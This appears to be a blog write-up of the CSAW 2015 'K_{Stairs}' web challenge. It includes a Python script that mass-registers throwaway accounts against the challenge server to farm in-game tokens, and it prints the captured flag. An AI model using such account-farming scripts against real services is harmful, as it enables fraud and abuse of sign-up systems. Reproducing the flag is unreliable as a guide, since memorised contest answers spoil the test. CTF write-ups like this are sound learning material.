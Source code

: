 ```yaml
---
layout: post
title:  "CSAW - K_{Stairs}"
date:   2015-09-21 19:00
categories: csaw2015
tags: security ctf csaw2015 cryptography
description: A web challenge for 100 points
---
```


**Category** : Web 

**Points** : 100

#Write-up
At the start of the CTF, this challenge was worth 50 points, but they changed it for 100 points. We realized that when you register/logout you get three more tokens each time. In that challenge, you need 10 tokens to buy a compass and one token for a pack of five food item.

My partner created a python script that create many account. Then, it returns the cookie that you can replace with your current one. So, with that script you don't need to manually create an account to have more tokens.

###Script by [MOBergeron](https://gist.github.com/MOBergeron/a34e719e4587257defab)
{% highlight python %}
import hashlib
import requests

if __name__ == "__main__":
	u = 199999 # Change this everytime you run the script to have different user names
	
	urlRegister = "http://54.209.88.227/register"
	urlLogout = "http://54.209.88.227/logout"

	s = requests.session()
	
	for i in range(50): # Change this if you need more or less tokens
		username = hashlib.sha1(str(u)).hexdigest()
		user1 = username[:len(username)/2]
		user2 = username[len(username)/2:]
		# Login 1
		r = s.post(urlRegister, data={'user':user1,'pass':'','login':'register'})
		s.get(urlLogout)

		# Login 2
		r = s.post(urlRegister, data={'user':user2,'pass':'','login':'register'})
		
		if(i < 49):
			s.get(urlLogout)
		u+=1

	print(r.cookies)
{% endhighlight %}

Then, you just need to buy a compass, foods and follow the compass indication to find the stairs.

And when we reached the stairs we got this message:

“Your compass indicates you are going the right way. You found the exit... You win! You find the key on a piece of paper: KEY{H0000LY_ST41rRs_S0000_MUCH_SPACE}. Then a grue gets you. You die.”



